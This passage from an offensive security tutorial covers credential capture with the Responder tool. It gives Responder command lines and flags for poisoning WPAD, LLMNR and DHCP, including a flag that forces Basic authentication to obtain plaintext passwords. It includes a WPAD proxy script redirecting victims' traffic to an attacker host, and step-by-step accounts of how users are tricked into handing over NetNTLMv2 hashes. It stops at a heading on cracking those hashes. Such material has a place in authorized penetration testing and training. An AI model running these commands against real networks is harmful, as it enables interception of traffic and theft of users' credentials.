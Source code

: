 - ‘-F’ = Force NTLM/Basic authentication on wpad.dat file retrieval (forces a login prompt to appear).
- ‘-b’ = Return a Basic HTTP authentication (plaintext passwords).

/etc/responder/responder.conf
```
WPADScript = function FindProxyForURL(url, host){if ((host == "localhost") || shExpMatch(host, "localhost.*") ||(host == "127.0.0.1") || isPlainHostName(host)) return "DIRECT"; if (dnsDomainIs(host, "ProxySrv")||shExpMatch(host, "(*.ProxySrv|ProxySrv)")) return "DIRECT"; return 'PROXY 172.16.1.30:3128; PROXY 172.16.1.30:3141; DIRECT';}
```

How Responder works to poison WPAD

- The domain has WPAD configured to proxy all requests using a single configuration (.dat) file. However, we will see this not actually necessary as we can setup our own rogue proxy server. All the domain needs is to have the Internet Options set so that their browser calls out to WPAD, which happens to be the default.
- A user mistypes a URL in the address bar resulting in DNS not being able to resolve the requested resource.
- We (the attacker with responder running) manage to intercept this request and responder replies to the broadcast “I know where that domain is, send me your hash and I will connect you.”
- The system attempts to connect the user to our rogue WPAD server by supplying its NetNTLMv2 hash and then responder says “On second though, that’s actually not me.” and closes the connection.
- The users IP address, username and NetNTLMv2 hash are then output into responder as they got served up in the initial request.

**LLMNR Poisoning (DHCP)**

```shell
responder -I eth0 -wrfPdv
```

- ‘-P’ = Force NTLM (transparently)/Basic (prompt) authentication for the proxy. WPAD doesn’t need to be ON.
- ‘-d’ = Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response.
- ‘-v’ = Increase verbosity.

How Responder works to poison DHCP

- The domain does not use static IP addresses and uses DHCP to lease out IP addresses.
- A user’s DCHP lease expires and they automatically renew a new on. For example, a user turns on their computer after turning it off for the weekend and when their system boots up, it requests an IP from DHCP.
- We (the attacker with responder running) manage to win the race against the legit DHCP server to answers with a DHCP ACK containing invalid network settings, a valid WPAD server (Responder IP) and a short lease time of only 10 seconds.
- The workstation gets the WPAD server injected and will issue a new DHCP request right after, Responder will let the networks DHCP server do its job and provide the legitimate network settings. 
- The computer’s IP address, username and NetNTLMv2 hash are then output into responder as they got served up in the initial request.
- The user goes about their business as normal but hashes start flowing into

**Cracking an NTLMv2 Hash With Hashcat**
